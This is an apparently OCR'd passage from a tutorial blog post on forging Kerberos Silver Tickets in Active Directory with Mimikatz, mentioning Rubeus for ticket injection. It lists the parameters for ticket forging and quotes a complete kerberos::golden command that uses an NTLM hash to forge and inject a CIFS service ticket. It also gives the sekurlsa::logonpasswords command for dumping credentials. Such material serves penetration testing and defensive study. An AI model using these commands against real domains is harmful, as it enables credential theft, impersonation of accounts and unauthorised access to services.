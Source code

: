 

Once again as we are attacking a protocol that is primarily used within Microsoft AD environments I do recommend you carry out the attacks from a Windows Box / **Domain-Joined Machine** but ofc it is possible from Linux but we will start with Windows. 

I will only be discussing using Mimikatz for Ticket creation and then Rubeus for Ticket Injection. I do not believe you can create a Silver Ticket with Rubeus yet, but I may be wrong.

Let's go.





#### [](#header-4)Creating Ticket with Mimikatz

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */
```



Good old Mimikatz, the true swiss-army knife for dumping credentials, kerberos tickets, SAM Hives & DPAPI manipulation. Shout out to Benjamin Delpy, the InfoSec community would be nothing without you.



Mimikatz Silver Ticket Guide

```powershell
/domain: The FDQN
/sid: The SID (Security Identifier) of the Domain (whoami /user)
/user: Target Account/Computer to Impersonate
/id: RID of the account you will be impersonating
/ptt: Optional (Will Inject Ticket or you can do with Rubeus)
/rc4: NTLM Hash of User Password/Computer Password
```



**AD Security** has a really nice example on using a Computer Hash:

*The following Mimikatz command creates a Silver Ticket for the CIFS service on the server adsmswin2k8r2.lab.adsecurity.org. In order for this Silver Ticket to be successfully created, the AD computer account password hash for adsmswin2k8r2.lab.adsecurity.org needs to be discovered, either from an AD domain dump or by running Mimikatz on the local system as shown above (Mimikatz “privilege::debug” “sekurlsa::logonpasswords” exit). The NTLM password hash is used with the /rc4 paramteer. The service SPN type also needs to be identified in the /service parameter. Finally, the target computer’s fully-qualified domain name needs to be provided in the /target parameter. Don’t forget the domain SID in the /sid parameter.*

```
mimikatz “kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit
```
